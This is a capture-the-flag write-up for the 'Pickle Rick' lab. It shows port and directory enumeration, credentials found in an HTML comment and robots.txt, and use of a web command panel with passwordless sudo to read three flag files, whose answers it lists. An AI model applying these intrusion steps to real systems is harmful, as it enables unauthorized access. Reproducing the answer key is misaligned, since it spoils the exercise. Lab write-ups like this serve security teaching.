







# Pickle Rick — Tasks

## Task 1: Pickle Rick

### Service Enumeration

The target exposes two services:

| Port | Service | Version                      |
| ---- | ------- | ---------------------------- |
| 22   | SSH     | OpenSSH 8.2p1 (Ubuntu)       |
| 80   | HTTP    | Apache httpd 2.4.41 (Ubuntu) |

> **Note:** SSH is locked to public-key authentication (never-from-password). The real attack surface is the web app on port 80.

### Web Enumeration

Directory brute-forcing with **[bustit](https://github.com/Utkarsh464/dir-brute)** (my own tool) reveals the interesting paths:

```
bustit http://10.48.131.21/ /home/l/wordlist/subdirs/web-paths.txt -t 100 -v
```

Key results:

| Status | Path         | Note                                      |
| ------ | ------------ | ----------------------------------------- |
| 200    | `index.html` | Homepage (contains username in a comment) |
| 200    | `robots.txt` | Contains the password                     |
| 200    | `login.php`  | Portal login page                         |
| 302    | `portal.php` | Redirects to login until authenticated    |
| 301    | `assets/`    | Static files                              |

### Recovering the Credentials

**Username — HTML comment in `index.html`:**

```
curl -s http://10.48.131.21/index.html
```

```html
<!--
    Note to self, remember username!
    Username: R1ckRul3s
-->
```

**Password — `robots.txt`:**

```
curl -s http://10.48.131.21/robots.txt
Wubbalubbadubdub
```

**Credentials:** `R1ckRul3s` / `Wubbalubbadubdub`

### Login Portal

`login.php` presents a simple username/password form that POSTs back to itself. Logging in with the recovered credentials grants access to the **Command Panel** at `portal.php`.

### Command Panel & the First Ingredient

`portal.php` is an authenticated command-execution interface. Running `sudo -l` in the command panel shows the current user can run **everything** as root without a password:

```
Matching Defaults entries for www-data on ...:
    env_reset, mail_badpass, secure_path=...

User www-data may run the following commands on ...:
    (ALL) NOPASSWD: ALL
```

Running `ls /` reveals a `home` directory:

```
ls /home
rick
```

Listing `/home/rick` exposes `Sup3rs3cretPickl3Ingred.txt`. Reading it:

```
sudo ls /home/rick
Sup3rs3cretPickl3Ingred.txt  second ingredients
```

```
sudo less /home/rick/Sup3rs3cretPickl3Ingred.txt
mr. meeseek hair
```

**First ingredient:** `mr. meeseek hair`

### Second Ingredient

Reading the file named `second ingredients` in `/home/rick`:

```
sudo less "/home/rick/second ingredients"
1 jerry tear
```

**Second ingredient:** `1 jerry tear`

### Third Ingredient (Root)

Because `www-data` can run **everything** as root with no password, we read the flag stored in `/root` directly:

```
sudo less /root/3rd.txt
3rd ingredients: fleeb juice
```

**Third ingredient:** `fleeb juice`

---

## Summary

| Question          | Answer           |
| ----------------- | ---------------- |
| First ingredient  | mr. meeseek hair |
| Second ingredient | 1 jerry tear     |
| Last ingredient   | fleeb juice      |

## Key Takeaways

1. **Commenters leak credentials** — the username was sitting in an HTML comment (`<!-- ... Username: R1ckRul3s -->`). Always view source.
2. **`robots.txt` is not just for crawlers** — it can carry passwords or hidden paths. Always check it during enumeration.
3. **A web command panel is a foothold with root ambition** — when `sudo -l` shows `NOPASSWD: ALL`, you already have root-equivalent command execution.
4. **Filenames with spaces need quoting** — `sudo less "second ingredients"` requires the quotes to target the right file.
5. **Some services are a trap** — SSH here only accepts public keys, so it's a dead end; the web app is where the actual chain lives.

## Evidence

- 
- 
- 
- 
- 
- 
- 
